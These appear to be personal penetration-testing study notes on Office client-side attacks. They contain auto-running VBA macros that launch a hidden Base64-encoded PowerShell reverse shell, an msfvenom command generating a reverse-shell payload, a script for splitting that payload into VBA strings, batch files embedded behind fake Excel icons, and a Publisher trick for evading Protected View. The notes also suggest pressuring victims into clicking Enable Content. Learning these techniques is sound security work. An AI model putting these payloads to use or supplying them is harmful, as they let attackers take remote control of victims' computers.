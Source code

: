 

### Macros
  
Series of commands and instructions that are grouped together to accomplish a task programmatically.  
- Often used to manage dynamic content and link docs w/ external content.  
- Can be written from scratch in Visual Basic for Applications (VBA)  
	- Fully functional scripting language w/ full access to ActiveX objects & the Windows Script Host (similar to JS in HTML Apps)  
  
  
W/in MS Word (likely similar in Excel)  
- Choose VIEW ribbon > Select Macros  
- Type name for macro > Create  
- Doc must be saved as either **.docm** or **.doc** formats.  
	- \*\**Avoid **.docx** format as it doesn't support macros  
  
  
Body of the macro is denoted by keywords _**Sub**_ and _**End Sub**_  
	- Sub procedures are very similar to a Function in VBA  
		- Difference is Sub procedures can't be used in expressions as they don't return any values.  
- _**'**_ = Comments  

```vbscript
Sub AutoOpen()
  
	MyMacro
  
End Sub
  
Sub Document_Open()
  
	MyMacro
  
End Sub
  
Sub MyMacro()
  
	CreateObject("Wscript.Shell").Run "cmd"

End Sub
```
	- AutoOpen() = Executed when a new doc is opened  
	- Document_Open() = Executed when a previously opened doc is reopened  
  
  
Once Doc is saved & reopened, a security warning requests to Enable Content (& effectively run the macros within)  
-  IRL, if the victim doesn't click the _Enable Content_, the attack will fail. So they'll need to be sufficiently encouraged to do so.  
  
  
For another payload (reverse shell), we can execute Metasploit's PS shellcode using a Base64 string.  
  
As VBA has a 255-char limit for literal strings, we'll have to split the commands into multiple lines and concatenate them.  
  
  
New macro (diff Lines 14 & 16):  
```vbscript
Sub AutoOpen()  
  
	MyMacro  
  
End Sub  
  
Sub Document_Open()  
  
	MyMacro  
  
End Sub  
  
	Sub MyMacro()  
	Dim Str As String  
  
	CreateObject("Wscript.Shell").Run Str  
  
End Sub
```


**msfvenom** payload:  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<local_ip> LPORT=<local_port> -f hta-psh -o /var/www/html/evil.hta
```

  
Using a python script to split up the payload ^:  
```python
str = "powershell.exe -nop -w hidden -e <msfvenom shellcode>"  
  
n = 50  
  
for i in range(0, len(str), n):  
print "Str = Str + " + '"' + str[i:i+n] + '"'
```

 
Updated macro:  
```vbscript
Sub AutoOpen()  
  
	MyMacro  
  
End Sub  
  
Sub Document_Open()  
  
	MyMacro  
  
End Sub  
  
Sub MyMacro()  
	Dim Str As String  
  
	Str = "powershell.exe -nop -w hidden -e <encoded powershell reverse"  
	Str = Str + "shell generated from msfvenom........."  
	...  
	...  
	...  
	Str = Str + "QA=="  
  
	CreateObject("Wscript.Shell").Run "Str"  
  
End Sub
```

  

### Object Linking and Embedding

**OLE** allows for abusing MS Office's document-embedding feature.  
  
**DDE** - Dynamic Data Exhange  
- Allows for the ability to execute arbitrary apps from within Office docs.  
*Patched since Dec 2017  
  
_.bat_ files are an older (still fully functional) format - replaced by VB & PS   
  
First we create the batch script:  
	POC will be to launch a cmd prompt:  
```bash
echo START cmd.exe > launch.bat
```

  
Then insert into a doc:  
- Open Word > Create new doc  
- Insert ribbon > Click on object menu
![[doc-object.png]]

- Create from file > Choose script  
	- Check Display as icon  
	- Change icon...  
		- Navigate to a desired binary  
			- Ex: C\:\\Program Files\\Microsoft Office\\root\\Office 16\\EXCEL  
		- Rename icon
![[doc-fromfile.png]]
	- Batch file is then embedded in the Word doc  
	- Save doc  
  
Once the icon is double clicked & the security warning is accepted, the batch file is launched.   
  
For the real exploit, replace the **cmd.exe** with the **msfvenom** payload ^^  
```powershell
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBd......
```

Once the batch file is update, you'll need to re-embed it in the doc.  
  

### Evading Protected View:

Protected View - When served from the internet, this protection disables all editng & mods in the doc and blocks the execution of macros or embedded objects.  
  
To simulate:  
- Use **nc** to transfer the file from Win Client to kali  
- Host it on Apache server (or python, whatever)  
- Download doc from the server onto our victim machine  
	- At this point, Protected View is engaged & we can't execute the batch file

![[protected_view.png]]

It's unlikely that a victim will click on Enable Editing and leave Protected View  
  
To get around, MS Publisher will not only allow for embedded objects, but will also not employ Protected View for internet delivered documents  
Issue, however, is that Publisher is less frequently installed compared to Word or Excel